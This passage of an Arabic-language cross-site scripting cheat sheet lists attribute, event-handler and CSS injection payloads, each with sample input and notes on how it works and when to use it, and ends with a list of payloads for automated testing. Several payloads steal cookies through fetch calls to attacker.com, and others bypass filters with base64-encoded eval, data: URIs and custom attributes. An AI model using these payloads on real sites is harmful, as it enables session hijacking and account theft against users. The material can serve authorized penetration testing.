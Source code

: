   - **متى يُستخدم؟**: لتجاوز فلاتر تحظر `eval`.

#### هـ. حقن في سياقات سمات أو CSS
{  #XSS--ALL--Event--Payload }
استهداف سمات HTML أو تعبيرات CSS.
- **الحقن**: `" onfocus="alert('XSS')`
  - **الإدخال**: `https://example.com/?q=" onfocus="alert('XSS')`
  - **كيف يعمل**: ينفذ تنبيهًا إذا أُدرج في سمة مثل `<input value="...">`.
  - **متى يُستخدم؟**: لاستهداف السمات.
- **الحقن**: `" onload="fetch('http://attacker.com/log?c='+document.cookie)`
  - **الإدخال**: أدخل في حقل تعليق: `" onload="fetch('http://attacker.com/log?c='+document.cookie)`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إذا أُدرج في سمة حدث.
  - **متى يُستخدم؟**: لاستهداف أحداث السمات.
- **الحقن**: `<style>@keyframes x{}</style><div style="animation-name:x" onanimationend="alert('XSS')">`
  - **الإدخال**: أدخل في منشور: `<style>@keyframes x{}</style><div style="animation-name:x" onanimationend="alert('XSS')">`
  - **كيف يعمل**: ينفذ تنبيهًا عند انتهاء الرسوم المتحركة.
  - **متى يُستخدم؟**: لاستخدام أحداث CSS غير شائعة.
- **الحقن**: `<input style="background-image:url(javascript:fetch('http://attacker.com/log?c='+document.cookie))">`
  - **الإدخال**: أدخل في وصف الملف الشخصي: `<input style="background-image:url(javascript:fetch('http://attacker.com/log?c='+document.cookie))">`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عبر خاصية CSS (في متصفحات تدعم `javascript:` في CSS).
  - **متى يُستخدم؟**: لتجاوز فلاتر HTML.
- **الحقن**: `<div style="content:attr(data-x)" data-x="fetch('http://attacker.com/log?c='+document.cookie)" onmouseover="eval(this.dataset.x)">`
  - **الإدخال**: أدخل في حقل تعليق: `<div style="content:attr(data-x)" data-x="fetch('http://attacker.com/log?c='+document.cookie)" onmouseover="eval(this.dataset.x)">`
  - **كيف يعمل**: ينفذ شيفرة عند تمرير المؤشر باستخدام سمة مخصصة.
  - **متى يُستخدم؟**: لاستخدام سمات مخصصة.

### 2. الحقن للأتمتة
تُستخدم هذه الحقن مع سكربتات (مثل Python مع مكتبة `requests` أو `selenium`) لأتمتة اختبار مجموعة من الحقن المتقدمة وتحليل الاستجابات.

#### أ. إعداد قائمة الحقن
- **المحاولات**:
  - إنشاء قائمة بالحقن المتقدمة التي تستهدف سياقات متنوعة.
  - مثال قائمة:
    ```
    <svg onload=eval(atob('YWxlcnQoJ1hTUycp'))>
    <img src=x onerror=fetch('http://attacker.com/log?c='+document.cookie)>
    <a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4">Click</a>
    ";fetch('http://attacker.com/log?c='+document.cookie);//
    <details open ontoggle="fetch('http://attacker.com/log?c='+document.cookie)">
    ```
- **كيف يعمل**:
  - يتم إرسال الحقن عبر نقاط إدخال (مثل معلمات URL أو حقول تعليقات).
  - يتم مراقبة الخادم الخارجي أو المتصفح لتأكيد التنفيذ.
- **متى يُستخدم؟**:
  - عند اختبار نقاط إدخال متعددة بسرعة.
